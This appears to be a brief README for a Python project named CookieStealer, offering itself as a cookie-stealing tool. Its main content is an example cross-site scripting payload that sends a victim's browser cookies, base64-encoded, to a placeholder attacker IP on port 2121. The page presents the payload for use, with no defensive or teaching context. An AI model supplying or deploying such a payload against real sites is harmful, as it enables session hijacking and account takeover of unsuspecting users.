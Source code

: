 # CookieStealer
A simple cookie stealer coded in python

## Example payload:
<script>document.location='http://<your ip>:2121/'+encodeURIComponent(btoa(document.cookie));</script>
